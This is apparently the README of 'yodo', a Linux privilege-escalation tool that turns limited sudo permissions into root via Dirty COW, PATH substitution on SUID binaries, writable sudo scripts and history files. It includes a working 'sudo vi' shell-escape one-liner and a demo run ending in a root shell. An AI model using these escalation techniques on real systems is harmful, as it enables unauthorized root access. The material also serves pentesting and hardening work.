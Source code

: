 # yodo
This tool proves how easy it is to become root via limited sudo permissions, via dirty COW or using Pa(th)zuzu.

dirty COW : exploits a race condition in the implementation of the copy-on-write mechanism
Link : https://dirtycow.ninja

Pa(th)zuzu : Checks for PATH substitution vulnerabilities, logs the commands executed by the vulnerable executables and injects commands with the permissions of the owner of the process (SUID)
Link : https://github.com/ShotokanZH/Pa-th-zuzu


# Extra features
-
VSP : checks if the user is able to overwrite a sudo-enabled command with his own

History : checks for * history (like bash_history) files. You could be lucky!

b3 : tries to substitute commands that has root privileges [sudo -l >>> User may run the following commands ... (root) NOPASSWD: /path/to/script]




Example:
If a user has sudo privileges only on vi, he could become root by runnuing this command: sudo vi -c ':shell'

    b3rito@victim ~/Desktop $ sudo vi -c ':shell'
    [sudo] password for b3rito:
    victim Desktop # whoami
    root

# Author
Written by b3rito at mes3hacklab

# Installation
    chmod +x yodo.sh

# Usage
./yodo.sh
    
    b3rito@victim ~/Desktop $ ./yodo.sh
    =======================================================================                                                       
                                    ....                         
                                ..  .77.                        
                                Z.  ,77?                        
                               .Z$.....,?+?.       
                       ....     $?Z.77+??I..            
                       .7I.  .....~.77:=I..Z.....      
                       .77?  ..7?.?.=7....ZO..~..            
                   ..  ..7$7.=7I$.??+.$$~.==.??..    .~..  
                  .$Z$..Z...77.$7..+=?,.I?=.++.+~....?7... ..  
                   ..?.I7:..77....$$IO++??=...7$.Z$..7$?..7$  
                   .77.+:$?7..Z$.?,.~M,?,..77. .ZZ...,,.$77.. 
              ..$=. +7$7...77+$I? ???M.$.I:~I?..,$..7$.Z7=.   
              ..Z7Z.=..~,.....,=O...~MI=~=...O$.~...?7..:$7I. 
              ...Z.Z.?I?.=:.??...??..M.ZZ.. ,.~Z$I,.,7...I.,....   
              ..,......:.~~.?.?+..?~7M..,?...==.~7..:.Z$+.. ....
                .?7..??,...Z.=?:.I7..M. D$Z?$+=.:... +Z+,....77.....
          .$~...:+O7$.+I+$=~:.=...7,:M.M~7 ..Z$..+~:?...7?$.?$~.OZZ$Z...
          ..$I7=?I?,..7?$$M..=:..?...MM.7$,.7...:??....,7I...?..Z$Z$$$.
          ...,=~.?.+.7.....8.$...?,+~MD+I...$7.I.O$Z$.. D8..I=$:$,....
            .$~+$....7Z.$$$7M.?+=$..,M8 .Z.I., M,ZZZ.MM..7+?+77..7..
              .. ...$.MM.....MZ$~Z:Z,MM.O$,$7,MZ .NMM.~77.+?+.7...
                 I7~Z....MM .M7Z....?MMO,Z..$.M 8MM ..=77I=~?..I~.
            .$7I7?.+...$...:MMM. .$=OMM?Z,,..MMMMMMMMMMMMMI..=Z$+...
            ..?7I$$I.+.O:Z,=.8MN.$??MMM..$7.MMM...Z.$.+,?.Z.Z=..$77$..
                   ...?OMMMMMMDMM7$IMMM ..MMM..,$7.Z$Z..??I$,Z.?I...
                   7?:++.??=...~8D..MMM MMMM.???.$...~$.....$Z..7$.. 
                   .....??,::Z$::MM.MMMMMM,,=II?II,.....   ...... ..
                        ,...?:...IOOO8OO8 ?I,:        ,.     
                            .     88OOOO. :.                 
                           .:,,,:,.8OOOO :.                  
                           .,....,. OO8M:.. :.               
                            ..... . 8OMN.:.                  
                                   .ONM8::.                  
                    :8MDO  8MDO   :8MDO,    DMO8M       :8MDO, 
                      DMO  DMO  .+8D   MO,  DMO  8M   .+8D   MO,
                        O  O    $O     OMM  DMO   8M  $O     OMM 
                      :8MDO    .OO     O8   DMO  8M  .OO     O8M,
                      DMO         .8°O88    DMO8M       .8°O88
                                  .8OOOO. .           :.       
                       ...         OOOOO,.                       
        ..  . ......    .........,.MMMMMMI.,........... .       
          .     .. ,INMMMMMMMMMMMMMMMMMMIZMMMMMMMN7=..... . . .  ..
                 .  =. ......~?ZMMMIM.MM NMMN...   .......=+ . .  
                 .  .. .  .$...MM,.MM ..MD....MMMMO... .. ..,..~ 
                 ,     .   . :MM.  MM  .ZMM?.. .$M...7MD77ZD+.,. 
              .    .  :=D7Z8MM.   .M:   .. .MD.. .7D~. ..,.O. .. 
              .. $..=.    ?M?. .. .M.  ..M...IMM  .,..M ..   ..:.. 
              . ..... . .MM.Z   D ,M+. . :+..M. N+ . . ..? . .... 
                       .M7=.+.=.~.:MM.    .  , . .M..   .  ,.  
                      .N?.8. ~  ..,M 8. ... . M. . M.      . . .  
                  . ..NM .$..    .MM...  .    ,+.:: 8 .         
                 . =M.M ..?..    ..M  M .   . .M .I,.M.       
            ,~~  .   .I...8..    M M  .8,.     Z.... b3    
               .     +.   +. .. : .M....O.    ...  . D.=.   
                     O.  .~,    $. 8     .    .~.  ..+ .   
                     8.   ...   M. ,..   , +   .I.. .,..7  
                     O.    .    I   I     ..  .   .  .... 
                     +.      .  :  .M.                   
                      .         .   M                  
                     ..         .   ..                
                     .          .                    
                      ~.             N.                                         
    =======================================================================
    Possible exploitable options (‡ excluded):
     [·] find
     [·] vi
     [·] b3
 
     Select From the menu:
 
       1) Find                8) Man  *               17) Pathzuzu °‡
       2) AWK                10) Dirty COW °‡         18) History °‡
       3) Nmap               11) Gdb                  19) Vim
       4) Vi                 12) Ruby                 20) Lua
       5) Python             13) b3                   21) Ftp *
       6) Irb                14) Perl                 22) Credits
       7) Less *             15) Tee                  23) Update
       8) More *             16) VSP °‡               99) Exit
         
     VSP = Vulnerable Script Permissions
     Pathzuzu = SUID exploitation through Path vulnerability
     b3 = editable root privileged commands listed in 'sudo -l'
     * user interatcion
     ° sudo not required
    Enter Number: 1
    [sudo] password for b3rito:
    victim Desktop # whoami
    root
    victim Desktop #
